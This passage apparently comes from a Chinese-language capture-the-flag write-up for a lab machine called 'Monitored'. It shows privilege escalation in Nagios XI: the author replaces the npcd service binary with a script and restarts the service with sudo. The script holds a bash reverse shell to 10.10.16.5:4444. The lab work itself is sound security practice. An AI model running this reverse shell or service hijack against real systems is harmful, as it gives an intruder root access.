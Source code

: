 ![image-20250323000725440](Monitored/image-20250323000725440.png)

查看npcd是乱码，无法直接修改，再写一个npcd传上去

```
#! /bin/bash
bash -i &> /dev/tcp/10.10.16.5/4444 0>&1
```

```
sudo /usr/local/nagiosxi/scripts/manage_services.sh stop npcd

sudo /usr/local/nagiosxi/scripts/manage_services.sh start npcd
```

![image-20250323001846625](Monitored/image-20250323001846625.png)

